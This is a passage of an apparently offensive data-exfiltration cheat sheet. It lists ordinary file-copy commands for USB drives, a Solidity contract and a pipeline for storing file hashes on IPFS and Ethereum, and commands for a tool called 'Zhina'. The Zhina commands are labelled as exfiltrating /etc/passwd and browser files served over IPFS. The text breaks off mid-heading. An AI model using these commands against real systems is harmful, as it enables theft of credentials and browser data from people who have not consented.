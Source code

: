 1. **Using `cp` on Linux to copy a file to a USB drive:**

```
cp /path/to/local/file.txt /media/usb-drive/
```


2. **Using `copy` on Windows Command Prompt to copy a file to a USB drive:**

```
copy C:\path\to\local\file.txt E:\
```

3. **Using PowerShell on Windows to copy a file to a USB drive:**

```
Copy-Item -Path "C:\path\to\local\file.txt" -Destination "E:\"
```


### IPFS


1. **Using IPFS and Ethereum Smart Contract:**

```
pragma solidity ^0.8.0;

contract IPFSStorage {
    string public ipfsHash;

    function storeIPFSHash(string memory _ipfsHash) public {
        ipfsHash = _ipfsHash;
    }
}
```


2. **Using `ipfs` command-line tool to add a file to IPFS and store hash on Ethereum:**

```
ipfs add /path/to/local/file.txt | awk '{print $2}' | xargs -I {} ethereum-cli sendtocontract [CONTRACT_ADDRESS] "storeIPFSHash(bytes32)" 0x{}
```


3. **Using `Zhina` command-line tool:**


Exfiltrate password file

```
zhina --do encode64 --path /etc/passwd
```


Exfiltrate Browser Files with 1M slice and serve on ipfs

```
zhina --path browser --slice slice1M --serve ipfs
```

Exfiltrate Browser Files with 1M slice and serve on simple
